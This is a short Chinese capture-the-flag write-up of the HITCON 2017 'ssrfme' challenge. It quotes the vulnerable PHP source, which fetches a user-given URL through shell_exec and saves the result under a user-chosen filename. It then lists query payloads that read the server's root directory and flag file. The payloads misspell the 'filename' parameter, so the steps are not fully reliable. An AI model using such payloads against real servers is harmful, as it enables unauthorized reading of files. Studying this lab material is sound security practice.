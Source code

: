 ```yaml
---
title: hitcon_2017_ssrfme
date: 2021-10-06 22:28:27
tags: ctf
cover: https://browser9.qhimg.com/bdr/__85/t01f0d712d10ff619ee.jpg
---
```


# hitcon_2017_ssrfme

```php
 <?php 
    $sandbox = "sandbox/" . md5("orange" . $_SERVER["REMOTE_ADDR"]); 
    @mkdir($sandbox); 
    @chdir($sandbox); 

    $data = shell_exec("GET " . escapeshellarg($_GET["url"])); 
    $info = pathinfo($_GET["filename"]); 
    $dir  = str_replace(".", "", basename($info["dirname"])); 
    @mkdir($dir); 
    @chdir($dir); 
    @file_put_contents(basename($info["basename"]), $data); 
    highlight_file(__FILE__); 

```

这个代码的意思大概是通过GET方法请求到的数据保存在我们自定义的文件名当中。

给url参数传递/可以查看根目录下的内容



```
$sandbox = "sandbox/" . md5("orange" . $_SERVER["REMOTE_ADDR"]);
```

访问sandbox/+md5(orange+出口Ip)    注意:加密后用小写的

如果出现下图，说明路径是对的

![](https://img-blog.csdnimg.cn/20210502212135484.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUxNjUyODY0,size_16,color_FFFFFF,t_70)

然后构造payload1:

```
?url=/&fliename=aaa
```

这个aaa可以随便写，能用就行

然后访问:

``` 
/sandbox/md5加密后的内容/aaa
```

出现以下目录

![](https://i.loli.net/2021/10/07/9A3qsJf8m6QoLlp.png))

可以看到flag

然后改一下payload继续以上操作

``` 
?url=/flag&fliename=aaa
```

```
/sandbox/md5加密后的内容/aaa
```

发现文件没法显示

![](https://i.loli.net/2021/10/07/1d7aiGARerbP4OX.png)

继续改payload

``` 
?url=/flag&fliename=aaa.txt
```

```
/sandbox/md5加密后的内容/aaa.txt
```

flag就出来了

![](https://i.loli.net/2021/10/07/7CsKIJzpm6XnLSx.png)



## tips:



“REMOTE_ADDR” ：正在浏览当前页面用户的 IP 地址

escapeshellarg （）：— 把字符串转码为可以在 shell 命令里使用的参数

pathinfo()： 函数以数组的形式返回关于文件路径的信息

basename() 函数返回路径中的文件名部分
